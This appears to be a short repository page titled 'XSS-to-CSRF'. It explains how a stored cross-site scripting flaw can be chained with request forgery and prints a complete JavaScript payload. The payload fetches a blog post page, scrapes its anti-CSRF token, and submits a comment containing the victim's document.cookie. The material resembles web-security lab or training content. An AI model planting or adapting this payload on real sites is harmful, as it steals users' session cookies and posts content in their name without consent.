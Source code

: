 # XSS-to-CSRF

The code snippet provided demonstrates a Cross-Site Request Forgery (CSRF) attack utilizing a Cross-Site Scripting (XSS) vulnerability.

By combining the Stored XSS vulnerability to inject the malicious script and the CSRF attack to perform unauthorized actions on the victim's behalf, this code demonstrates a dangerous scenario where the victim would post a new comment on a blog with his cookie information in case the Stored XSS paylaod gets triggered.

```JavaScript
var request = new XMLHttpRequest();
request.responseType = "document"
request.open("GET", "/post?postId=7", true);

request.onload = function(e) {
  var csrf = e.target.response['body'].querySelectorAll('[name="csrf"]')[0].value;
  
  data = "csrf=" + csrf + "&postId=7&comment=" + document.cookie + "&name=victim&email=victim@victim.com&website=http://victim.com"
  
  var request = new XMLHttpRequest();
  request.open("POST", "/post/comment", true);
  request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  request.send(data);
}
request.send();
```
